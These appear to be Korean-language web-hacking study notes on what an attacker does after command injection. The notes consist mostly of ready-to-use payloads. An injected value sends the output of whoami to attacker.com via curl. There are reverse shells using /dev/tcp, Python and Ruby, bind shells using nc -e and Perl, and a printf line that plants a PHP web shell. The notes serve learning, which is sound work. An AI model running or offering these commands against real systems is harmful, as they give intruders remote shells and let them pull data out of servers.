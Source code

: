         ```php
        name=John; curl http://attacker.com/$(whoami)
        ```
        
- Reverse & Bind Shell : 임의로 실행할 명령어를 네트워크를 통해 입력하고 실행 결과를 출력하는 공격 기법. 인/아웃 바운드 제한이 있으면 공격 불가
    - Reverse Shell : 공격 대상 서버에서 공격자의 서버로 셸을 연결하는 것
        - sh & Bash 이용 : /dev/tcp & /dev/udp를 이용하여 셸 획득 가능
            
            ```php
            //공격 대상 서버
            /bin/sh -i >& /dev/tcp/127.0.0.1/8080 0>&1
            /bin/sh -i >& /dev/udp/127.0.0.1/8080 0>&1
            
            //공격자 서버
            $ nc -l -p 8080 -k -v
            Listening on [0.0.0.0] (family 0, port 8080)
            Connection from [127.0.0.1] port 8080 [tcp/http-alt] accepted (family 2, sport 42202)
            $ id
            uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack)
            ```
            
        - 언어 사용 : 명령줄에서 소켓을 사용하여 셸 획득
        
        ```python
        //파이썬 이용
        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
        //루비 이용
        ruby -rsocket -e 'exit if fork;c=TCPSocket.new("127.0.0.1","8080");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
        ```
        
    - Bind Shell : 공격 대상 서버에서 특정 포트를 열어 공격자가 접속하여 셸을 서비스하는 것
        - nc : -e 옵션을 통해 특정 포트에 임의 서비스를 등록
            
            ```python
            nc -nlvp 8080 -e /bin/sh
            ncat -nlvp 8080 -e /bin/sh
            ```
            
        - 언어 사용 : Perl 스크립트를 작성하는 방법
            
            ```python
            perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
            ```
            
- 파일 생성 : 접근 가능한 파일 시스템 경로에 명령어의 실행 결과를 저장하는 파일을 생성하는 방법
    - Script Engine : webShell 업로드 후 실행
        
        ```python
        printf '<?=system($_GET[0])?>' > /var/www/html/uploads/shell.php
        ```
        